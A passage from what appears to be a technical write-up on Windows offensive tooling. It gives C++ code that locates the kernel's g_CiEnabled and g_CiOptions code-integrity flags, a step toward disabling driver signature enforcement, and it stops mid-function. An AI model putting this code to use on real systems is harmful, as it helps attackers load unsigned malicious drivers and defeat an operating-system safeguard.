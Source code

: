 ```c++

	wcscat_s(szFullModuleName, MAX_PATH * 2, L"\\");
	wcscat_s(szFullModuleName, MAX_PATH * 2, moduleNameW);

    // map a local copy of the module
	mappedImageBase = LoadLibraryEx(szFullModuleName, nullptr, DONT_RESOLVE_DLL_REFERENCES);

    if (buildNumber < 9600) {
        status = QueryImageSize(mappedImageBase, &sizeOfImage);

        if (NT_SUCCESS(status)) {
            // calculate offsets and find g_CiEnabled address
            status = QueryCiEnabled(mappedImageBase, imageLoadedBase, &kernelAddress, sizeOfImage);
        }
    }
    else {
        // calculate offsets and find g_CiOptions address
        status = QueryCiOptions(mappedImageBase, imageLoadedBase, &kernelAddress, buildNumber);
    }

    if (NT_SUCCESS(status)) {
        // verify if the found address is in a valid memory range associated with the loaded module in kernel space
        if (IN_REGION(kernelAddress, imageLoadedBase, loadedImageSize))
            result = kernelAddress;
    }

    FreeLibrary(mappedImageBase);
	return result;
}
```

The `QueryCiEnabled()` and `QueryCiOptions()` functions perform the actual black magic of calculating the right offsets using the kernel module and local mapped copy. `QueryCiOptions()` makes use of the [Hacker Disassembler Engine 64](https://github.com/Cerbersec/HDE64) (modified to be a single C/C++ Header file) to inspect the assembly instructions and calculate the right offset. Once the local offset has been calculated and stored in the `ptrCode` variable, the actual address is calculated by adding the local offset to the kernel module base address and substracting the base address of the locally mapped copy.

```c++
NTSTATUS QueryCiOptions(HMODULE ImageMappedBase, ULONG_PTR ImageLoadedBase, ULONG_PTR* ResolvedAddress, ULONG buildNumber) {
	PBYTE ptrCode = nullptr;
	ULONG offset, k, expectedLength;
	LONG relativeValue = 0;
	ULONG_PTR resolvedAddress = 0;

	hde64s hs;

	*ResolvedAddress = 0ULL;

	ptrCode = (PBYTE)GetProcAddress(ImageMappedBase, (PCHAR)"CiInitialize");
	if (ptrCode == nullptr)
		return STATUS_PROCEDURE_NOT_FOUND;

	RtlSecureZeroMemory(&hs, sizeof(hs));
	offset = 0;

	if (buildNumber < 16299) {
		expectedLength = 5;

		do {
            hde64_disasm(&ptrCode[offset], &hs);
```